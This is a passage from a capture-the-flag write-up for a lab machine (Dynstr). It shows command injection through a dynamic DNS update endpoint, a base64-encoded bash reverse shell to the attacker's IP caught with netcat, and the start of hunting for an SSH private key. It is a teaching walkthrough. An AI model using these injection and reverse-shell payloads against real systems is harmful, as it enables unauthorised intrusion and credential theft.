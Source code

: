 The website also says that it uses the same API as no-ip.com and through `gobuster` I located `/nic/update`. Giving that a try, I found that we can update dynamic DNS entries with a curl command like the following

```bash
$ curl -u 'dynadns:sndanyd' 'http://no-ip.htb/nic/update?hostname=test.no-ip.htb'
```

And this is where I was stuck for the LONGEST time! I tried many combinations, locating the longest length of string I could send, trying different credentials, etc. I even tried many MANY fuzzing strings as input, but had little to no progress. The only thing I really noticed was that it seemed to ignore quotes (") when executing.

After a LONG time and a lot of googling, I learned that it's actually executing what is being sent in as a command. For example, this successfully executes:

```bash
$ curl -u 'dynadns:sndanyd' 'http://no-ip.htb/nic/update?hostname=$(echo+"test").no-ip.htb'
```

Using this RCE, we can send ourselves a reverse shell, but because we're dealing with a URL, we need to avoid special characters, so we can do that by base64 encoding the payload (note if the base64 string contains a + character, you can double-base64 encode it or adjust spacing to avoid it).

```bash
$ echo -n 'bash -i &>/dev/tcp/10.10.14.5/9000 <&1' | base64
YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjUvOTAwMCA8JjE=
$ curl -u 'dynadns:sndanyd' 'http://no-ip.htb/nic/update?hostname=$(echo+"YmFzaCAtaSAmPi9kZXYvdGNwLzEwLjEwLjE0LjUvOTAwMCA8JjE="|base64+-d|bash).no-ip.htb'
```

And catching this with a netcat listener

```bash
$ rlwrap nc -lnvp 9000
listening on [any] 9000 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.244] 53788
bash: cannot set terminal process group (753): Inappropriate ioctl for device
bash: no job control in this shell
www-data@dynstr:/var/www/html/nic$
```

Success! We have a remote shell!

# Privesc - User
Now that we're running as the `www-data` user, we need to move to the regular user.

Firstly, the files `/home/bindmgr/.ssh/id_rsa.pub` and `/home/bindmgr/.ssh/authorized_keys` are readable and contain the same entry, so if we can locate the value in `/home/bindmgr/.ssh/id_rsa` we should be able to login! Unfortunately, there are a few issues with this.
1. The `id_rsa` file is not readable
2. The `authorized_keys` lists that it will only accept connections from `*.infra.dyna.htb`

For the first problem, searching a little bit reveals the file `/home/bindmgr/support-case-C62796521/strace-C62796521.txt` which contains an strace of some command being executed, but within the strace output we see an OpenSSH private key!

